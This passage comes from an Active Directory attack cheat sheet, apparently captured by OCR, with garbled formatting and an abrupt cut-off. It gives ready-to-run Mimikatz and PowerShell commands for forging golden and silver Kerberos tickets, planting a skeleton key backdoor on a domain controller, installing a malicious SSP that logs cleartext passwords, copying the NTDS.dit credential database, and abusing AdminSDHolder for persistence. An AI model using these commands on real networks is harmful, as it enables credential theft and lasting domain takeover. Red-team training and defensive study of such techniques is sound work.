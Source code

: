   ```powershell

- Import the golden ticket into the memory

  ```powershell
  Invoke-Mimikatz -Command '"kerberos::ptt golden_tkt.kirbi"'

- Crafting Silver Ticket (TGS) for CIFS Service (Requires service account creds/ machine account)

  ```powershell
  Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:organicsecurity.local /sid:S-1-5-21-182222111-321222112-53222211 /rc4:ff46a932423423427602342346f35 /target:dc.organicsecurity.local /service:CIFS/dc.organicsecurity.local /ptt"'

  ls \\organicsecurity.local\c$

  NOTE: HOST - Scheduled Task | HOST + RPCSS - PowerShell remoting & WMI | LDAP - DCSync

- Perform Skeleton Key based persistance attack (Use Mimikatz as default password for all account)

  ```powershell
  Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc

- Backdoor SSP on DC to log credentials in cleartext in log file (c:\windows\system32\kiwissp.log)

  ```powershell
  $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'

  $packages +="mimilib"
  
  Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
  Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $packages

    OR

  Invoke-Mimikatz -Command '"misc::memssp"'

**Read Protected file from the disk**

- Read NTDS.dit file (Only on DC, Containes the credentials of the AD Users)

  ```powershell
  Invoke-NinjaCopy C:\Windows\System32\ntds.dit C:\ntds.dit

**Read Protected file from the disk**

  - Identify the Applocker Policy to bypass the contrained jail shell 

    ```powershell
    Get-AppLockerPolicy -Effective  | select -ExpandProperty RuleCollections

**AdminSDHolder**

- Get the ACLs defines on the AdminSDHolder object

  ```powershell
  Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System" -ResolveGUIDs | select AccessControlType, IdentityReference, ActiveDirectoryRights

- Assign GenericAll rights to current (User01) account on AdminSDHolder container

  ```powershell
  ```